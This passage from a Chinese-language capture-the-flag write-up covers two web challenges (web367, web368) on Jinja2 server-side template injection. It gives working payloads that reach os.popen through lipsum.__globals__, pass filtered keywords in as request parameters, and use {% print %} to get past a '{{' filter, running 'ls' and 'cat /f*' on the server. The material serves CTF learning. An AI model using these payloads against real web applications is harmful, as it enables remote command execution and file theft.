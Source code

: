 ## web367   【过滤os】

这里在上面的基础上过滤了os

这里需要使用get(request.values.a) 来获取os

其余和上面一样即可

### get(request.values.a)

```handlebars
?name={{(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()}}&a=__globals__&b=os&c=cat /f*
```

## web368   【过滤{{】

这里我们过滤了{{ 但是没有过滤其他表达式

我们通过 {% %}

表达式修改一下即可

```cobol
?name={%+print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()%}&a=__globals__&b=os&c=ls
 
 
?name={%+print(lipsum|attr(request.values.a)).get(request.values.b).popen(request.values.c).read()%}&a=__globals__&b=os&c=cat /f*
```